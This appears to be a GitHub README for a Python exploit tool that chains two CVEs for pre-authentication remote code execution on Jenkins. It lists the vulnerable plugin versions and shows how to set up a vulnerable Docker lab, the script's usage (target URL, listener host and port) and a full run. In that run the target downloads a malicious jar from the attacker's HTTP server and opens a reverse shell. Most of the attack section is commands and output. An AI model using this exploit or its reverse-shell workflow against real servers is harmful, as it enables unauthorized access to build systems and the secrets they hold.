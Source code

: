 # jenkins_preauth_rce

## Summary

Description : This exploit chains CVE-2019-1003000 and CVE-2018-1999002 for Pre-Auth Remote Code Execution in Jenkins
Security Advisory : https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266

**Vulnerable Plugins**

Pipeline: Declarative Plugin up to and including 1.3.4
Pipeline: Groovy Plugin up to and including 2.61
Script Security Plugin up to and including 1.49

**Resources**

https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html\
https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2018-1000861\
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC\
https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266

Here is the exploit code for exploit this issue.

## Usage

Start docker container with Jenins if you want to test this locally

```ssh
⬢  jenkins_preauth_rce  master ⦿ docker-compose up -d
Creating network "jenkinspreauthrce_default" with the default driver
Creating jenkinspreauthrce_jenkins_1 ... done
```

Verify that container is running.

```ssh
⬢  jenkins_preauth_rce  master ⦿ docker ps
CONTAINER ID        IMAGE                  COMMAND                  CREATED             STATUS              PORTS                                              NAMES
cdd5256e8065        vulhub/jenkins:2.138   "/sbin/tini -- /usr/…"   29 seconds ago      Up 27 seconds       0.0.0.0:8080->8080/tcp, 0.0.0.0:50000->50000/tcp   jenkinspreauthrce_jenkins_1
```

Run ./jenkins_preauth_rce.py to get the usage menu.

```ssh
⬢  jenkins_preauth_rce  master ⦿ ./jenkins_preauth_rce.py

 ▐▄▄▄▄▄▄ . ▐ ▄ ▄ •▄ ▪   ▐ ▄ .▄▄ ·  ▄▄▄·▄▄▄  ▄▄▄ . ▄▄▄· ▄• ▄▌▄▄▄▄▄ ▄ .▄▄▄▄   ▄▄· ▄▄▄ .
  ·██▀▄.▀·•█▌▐██▌▄▌▪██ •█▌▐█▐█ ▀. ▐█ ▄█▀▄ █·▀▄.▀·▐█ ▀█ █▪██▌•██  ██▪▐█▀▄ █·▐█ ▌▪▀▄.▀·
▪▄ ██▐▀▀▪▄▐█▐▐▌▐▀▀▄·▐█·▐█▐▐▌▄▀▀▀█▄ ██▀·▐▀▀▄ ▐▀▀▪▄▄█▀▀█ █▌▐█▌ ▐█.▪██▀▐█▐▀▀▄ ██ ▄▄▐▀▀▪▄
▐▌▐█▌▐█▄▄▌██▐█▌▐█.█▌▐█▌██▐█▌▐█▄▪▐█▐█▪·•▐█•█▌▐█▄▄▌▐█ ▪▐▌▐█▄█▌ ▐█▌·██▌▐▀▐█•█▌▐███▌▐█▄▄▌
 ▀▀▀• ▀▀▀ ▀▀ █▪·▀  ▀▀▀▀▀▀ █▪ ▀▀▀▀ .▀   .▀  ▀ ▀▀▀  ▀  ▀  ▀▀▀  ▀▀▀ ▀▀▀ ·.▀  ▀·▀▀▀  ▀▀▀
[mikael.kall@kindredgroup.com]

Usage: ./jenkins_preauth_rce.py <URL> <LHOST> <LPORT>
EXAMPLE: ./jenkins_preauth_rce.py 'http://10.10.10.70' 10.10.14.24 1337
```

Run the exploit

```ssh
⬢  jenkins_preauth_rce  master ⦿ ./jenkins_preauth_rce.py 'http://127.0.0.1:8080' 10.100.xx.xx 1337
[+] LHOST = 10.100.xx.xx
[+] LPORT = 1337
[+] Generating payload
[+] HTTP Listen = 8000
[+] Netcat = 1337
[+] Exploit
192.168.144.2 - - [16/Apr/2019 13:47:45] code 404, message File not found
192.168.144.2 - - [16/Apr/2019 13:47:45] "HEAD /package/kCDcOLmx/1/kCDcOLmx-1.pom HTTP/1.1" 404 -
192.168.144.2 - - [16/Apr/2019 13:47:45] "HEAD /package/kCDcOLmx/1/kCDcOLmx-1.jar HTTP/1.1" 200 -
192.168.144.2 - - [16/Apr/2019 13:47:45] "GET /package/kCDcOLmx/1/kCDcOLmx-1.jar HTTP/1.1" 200 -
Connection from 192.168.144.2:47880
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
jenkins@cdd5256e8065:/$ id
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
``

